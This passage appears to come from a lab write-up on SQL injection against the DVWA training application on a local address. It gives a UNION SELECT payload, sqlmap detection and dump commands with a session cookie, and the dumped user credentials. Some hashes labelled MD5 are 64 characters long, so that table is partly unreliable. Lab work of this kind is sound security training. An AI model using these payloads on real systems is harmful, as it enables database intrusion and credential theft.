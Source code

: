 **Conclusion:** Target query returns exactly **2 columns**

#### Phase 3: Manual UNION-Based Data Extraction
**Objective:** Extract sensitive data using UNION SELECT  
**Payload:** `' UNION SELECT user, password FROM users --`

**Results:** (`union_db_attack.png`)
```
Retrieved User Credentials:
┌─────────┬─────────────────────────────────────┐
│ User    │ Password Hash (MD5)                 │
├─────────┼─────────────────────────────────────┤
│ admin   │ 5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8 │
│ gordonb │ e99a18c428cb38d5f260853678922e03 │
│ 1337    │ 8d3533d75ae2c3966d7e0d4fcc69216b │
│ pablo   │ 0d107d09f5bbe40cade3de5c71e9e9b7 │
│ smithy  │ 5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8 │
└─────────┴─────────────────────────────────────┘
```

#### Phase 4: Automated Exploitation with SQLMap
**Command Executed:**
```bash
sqlmap -u "http://192.168.56.101/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
       --cookie="PHPSESSID=51f05876ce006ed33296ef8b0e5fa594; security=low" \
       --batch
```

**SQLMap Detection Results:** (`sqlmap_test_result.png`)
```
Injection Types Identified:
✅ Boolean-based blind injection
✅ Error-based injection  
✅ Time-based blind injection
✅ UNION query injection

Database Management System: MySQL
Web Server: Apache/2.2.8 (Ubuntu)
```

#### Phase 5: Complete Database Extraction
**Command for Full Dump:**
```bash
sqlmap -u "http://192.168.56.101/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
       --cookie="PHPSESSID=51f05876ce006ed33296ef8b0e5fa594; security=low" \
       -D dvwa -T users --dump
```

**Complete Extraction Results:** (`databasedump2.png`)
```
DVWA Users Table - Full Compromise:
┌─────────┬─────────────┬─────────────┬─────────────┬──────────┐
│ user_id │ first_name  │ last_name   │ user        │ password │
├─────────┼─────────────┼─────────────┼─────────────┼──────────┤
│ 1       │ admin       │ admin       │ admin       │ password │
│ 2       │ Gordon      │ Brown       │ gordonb     │ abc123   │
│ 3       │ Hack        │ Me          │ 1337        │ charley  │
│ 4       │ Pablo       │ Picasso     │ pablo       │ letmein  │
│ 5       │ Bob         │ Smith       │ smithy      │ password │
└─────────┴─────────────┴─────────────┴─────────────┴──────────┘
```

---